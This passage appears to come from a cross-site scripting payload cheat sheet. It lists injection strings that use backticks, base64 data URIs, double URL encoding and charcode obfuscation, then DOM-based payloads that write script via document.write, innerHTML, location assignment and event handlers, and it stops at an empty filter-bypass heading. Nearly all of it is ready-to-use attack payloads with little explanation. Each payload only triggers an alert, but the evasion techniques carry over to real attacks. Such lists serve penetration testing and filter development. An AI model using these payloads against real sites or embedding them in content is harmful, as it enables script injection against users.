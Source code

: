 #### Using Backticks

``<IMG SRC=`javascript:alert("XSS")`>`` 

#### Using Data URIs

`<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">Click here</a>` 

#### Double Encoding

`%253Cscript%253Ealert('XSS')%253C%252Fscript%253E` 

### Encrypted Payloads

#### Base64 Encoding with Execution

`<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4="></iframe>` 

#### Hex Encoding with Execution

`<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>` 

## DOM-based XSS Payloads

DOM-based XSS occurs when the vulnerability is in the client-side code rather than the server-side code. This type of XSS is found in JavaScript that directly manipulates the DOM.

### Basic Payloads

`document.write('<script>alert("XSS")</script>');` 

`document.body.innerHTML = '<img src=x onerror=alert("XSS")>';` 

`location.hash = '"><script>alert("XSS")</script>';` 

### Advanced Payloads

`location="javascript:alert('XSS')";` 

`window.location = 'javascript:alert("XSS")';` 

`document.location = 'javascript:alert("XSS")';` 

### Event Handlers


`var x = document.createElement("div");
x.onmouseover = function() { alert('XSS'); };
document.body.appendChild(x);` 

`document.getElementById('test').setAttribute('onmouseover', 'alert("XSS")');` 

`element.attachEvent('onclick', function(){ alert('XSS'); });` 

### Filter Bypass Payloads
